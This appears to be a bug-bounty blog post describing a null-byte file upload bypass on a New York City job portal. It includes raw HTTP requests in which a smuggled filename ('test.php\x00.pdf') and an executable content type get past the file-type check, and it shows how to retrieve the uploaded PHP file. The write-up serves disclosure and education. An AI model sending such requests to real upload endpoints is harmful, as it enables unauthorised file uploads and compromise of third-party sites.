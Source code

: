 ```yaml
---
layout: post
title: "Null-Byte File Upload Bypass: PoC on a NYC Portal"
date: 2025-08-29
categories: [bug-bounty]
image: https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dIWSWrtC08kIaoVTLITp5w.jpeg
permalink: /blog/NYC-DOWN-FUV
locked: false
---
```


While searching for jobs on a New York City job portal, I decided to create an account and explore the platform’s features. One of the first things I did was update my profile and upload my resume, just like any typical job seeker would. The profile page looked something like this:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*LfMseQB6u9eC7ER5irMVAA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>


As I interacted with the site, I started to notice some interesting behaviors in the file upload functionality. The platform only allowed certain file types specifically PDF and TXT files. Any attempt to upload other or potentially malicious files was blocked.

When uploading a file, you would see a request similar to this:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="rest.pdf"
Content-Type: application/pdf

%PDF-1.3
%Äåòåë§ó ÐÄÆ
4 0 obj
<< /Length 5 0 R /Filter /FlateDecode >>
stream.....
</code></pre>
</div>

However, if we modify the upload request and change the filename to include a null byte (for example, `test.php\x00.pdf`) and set the `Content-Type` to something like `application/vnd.microsoft.portable-executable`, the server processes the file as `test.php\x00.pdf`. This could potentially allow us to bypass the file type restrictions.

Here’s how the modified request would look:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="test.php\x00.pdf"
Content-Type: application/vnd.microsoft.portable-executable

<--MZ binary content-->
------WebKitFormBoundaryvqrfq0aFgpBXXzTT--
</code></pre>
</div>

This trick can sometimes bypass weak file validation mechanisms, potentially allowing the upload of executable or malicious files.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*4sE7RSkRelC-XNJeqqNgBg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Now, when you try to access the uploaded file, the application returns a "Page Not Found" error, and the URL looks like this:

```
http://localhost:5000/file/filename.php/x00
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*yPJ1-vbmpXkK2wkQYowPtA.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

However, if you manually remove the `/x00` from the URL so it becomes:

```
http://localhost:5000/file/filename.php
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*FUQ2f6XnHFX7cxqhFNDRFg.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

you are able to download the uploaded PHP file directly.

Below is a demonstration of replicating this vulnerability on a test environment (not the NYC job portal), but the screenshots above are from the real site:

## Video Demonstration

<div style="position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden;">
  <iframe 
    src="https://www.youtube.com/embed/p3waRC1e7jo" 
    frameborder="0" 
    allowfullscreen 
    style="position: absolute; top:0; left: 0; width: 100%; height: 100%;">
  </iframe>
</div>

**Thank you for reading!** If you found this post helpful or interesting, stay tuned for more cybersecurity stories and insights. See you

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*83hlWRWOv-NhKdltd1awtg.png"
  alt="No Detection"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>